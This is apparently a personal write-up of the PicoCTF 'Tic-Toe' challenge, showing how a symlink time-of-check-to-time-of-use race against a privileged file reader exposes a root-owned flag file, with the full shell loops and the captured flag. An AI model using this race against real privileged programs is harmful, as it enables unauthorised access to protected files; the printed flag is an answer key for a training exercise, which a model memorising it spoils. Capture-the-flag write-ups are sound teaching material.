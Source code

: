 ```yaml
---
title: "Tic-Toe from PicoCTF"
categories: [PicoCTF]
tags: [PicoCTF]
---
```

# Tic-Toe from PicoCTF
[page](https://play.picoctf.org/practice/challenge/380?difficulty=2&page=1&search=tic-tac)
>Description
>Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.

After i connected i immediately saw `flag.txt` and i tried `cat` on it but it said nuh uh. 
after that i saw `txtreader` and from the `Description` i knew that it read files like this:
```
./txtreader flag.txt
```
But obviously i couldn't read it.
We should use [TOC/TOU attack](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use) which uses time of script to run o send another request making it break and allow us to read/execute the file in our instance `flag.txt`. In this we should use [symlink](https://en.wikipedia.org/wiki/Symbolic_link).
First create some file with if you want some text, for me i created `readME` which had `not flag` text in it.Then i proceeded to make double symlink.
```
$ ln -s readME link
$ ./txtreader link
not flag
$ ln -sf flag.txt link
```
This means it works.
```
$ for i in {1..1000};do ln -sf flag.txt link; ln -sf readME link; done 
$ while true; do ln -sf flag.txt link; ln -sf readME link; done &
[1] 2047
```
`for loop` alternates the symbolic link `link` between pointing to `flag.txt` and `readME` a thousand times.
`while loop` does the same but runs in the background and never ends.
So i had to write one last `for loop`:
```
$ for i in {1..1000}; do ./txtreader link; done
```
This `for loop` executed `./txtreader link`, read the `readME` file and also tried to read `flag.txt`. During the trying it caught the moment and from exploit it read the `flag.txt`
***
The flag is:
**picoCTF{ToctoU_!s_3a5y_2075872e}**
